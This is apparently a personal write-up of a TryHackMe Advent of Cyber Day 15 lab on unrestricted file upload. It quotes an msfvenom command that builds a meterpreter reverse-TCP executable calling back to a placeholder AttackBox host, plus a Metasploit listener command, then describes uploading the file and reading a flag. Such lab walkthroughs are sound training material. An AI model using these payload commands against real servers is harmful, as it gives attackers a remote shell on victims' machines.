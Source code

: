 Advent of Cyber is now regular seasonal room on <a href="https://tryhackme.com/">TryHackMe</a> page.
This is their 4th time and again with awsome story to follow each day's assignment.

Here are my solutions for the Day 15, if anyone gets stuck or need bit of help solving questions.
Today's task is addressing issues of input validation of file upload funtionality and unrestricted file upload vulnerabilities.
If any of these things are implemented during development of the site threat actor can exploit it and get access to the server.

First you need to boot up VM and Attackbox since they will take some time to boot up.

All questions exepct Q3 can be answered by carefully reading task description of vulnerabilities and how to avoid them.

For Q3 we need to create the paypload, we got the command in task description:

<blockquote>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttackBox_IP LPORT="Listening port" -f exe -o cv-username.exe</blockquote>

It will take a minute to generate it. It will be saved on attackbox /root folder.

then you run second command to create the listener :

<blockquote>sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST AttackBox_IP; set LPORT 'listening port'; exploit"</blockquote>


After that we can head to the firefox browser and upload the payload file we created with first step.
Now we can open listener window and wait until the file that we uploaded to website will be run.
When connection is active we can move through directories
<ol>
  <li>pwd to check where we are</li>
  <li>cd ../..</li>
  <li> we head to the folder HR Elf's Documents directory</li>
  <li> cat flag.txt </li>
</ol>

I hope anyone who gets stuck finds it helpful<br>
AudiTTRSi
